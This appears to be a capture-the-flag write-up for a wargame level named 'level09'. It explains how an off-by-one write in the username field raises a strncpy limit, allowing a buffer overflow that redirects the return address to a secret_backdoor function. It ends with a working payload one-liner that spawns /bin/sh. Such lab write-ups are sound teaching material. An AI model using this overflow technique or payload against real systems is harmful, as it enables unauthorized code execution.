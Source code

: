 # level09

This level is a classic buffer overflow return address attack.

We have 2 inputs: the first one is the username, the second is the message sent.

## Objective

We want to redirect the function `void handle_msg()` return into the backdoor function named `void secret_backdoor()`.

## Path

We're gonna overflow the buffer `char buffer[140] = {0};`
using `strncpy(buffer, message, msg_len);`

Since it's a `strncpy`, there is a limit that is set here: `int msg_len = *(int *)(buffer + 180);`

And this is where we initialize the `msg_len`: `*(int *)(buffer + 180) = 140;`

Since our buffer is 140 long, we cannot perform a return address attack if this value stays the same.

### Change the limit of strncpy

In the input of the username, we saw this:

```c
for (int i = 0; i <= 40 && username[i]; i++) {
    buffer[140 + i] = username[i];
}
```

Our limit is set at buffer + 180, and here we write from buffer + 140 up to buffer + 180.

So we have one character that could change the value of 140. In our case, we want more. The largest byte is \xff, so we just have to put 40 padding characters and \xff to change the 140 to 255.



### Find the return address

Now that we can overflow the buffer, we can find the offset (200). Now we want to change the value of the return address to the backdoor function!

64-bit function
Since this level is on a 64-bit system, we don't have a 4-byte address but an 8-byte one!

To find this address, we have to use:

```bash
    gdb
    b main
    print secret_backdoor
```
This difference in addresses when using GDB comes from position-independent executables (PIE) being loaded into memory.

## Finnaly

We just have to execute system("our_input"), so /bin/sh is working !

`(python -c 'print "A" * 40 + "\xff"'; python -c 'print "\x90" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"'; python -c 'print "/bin/sh"'; cat) | ./level09`

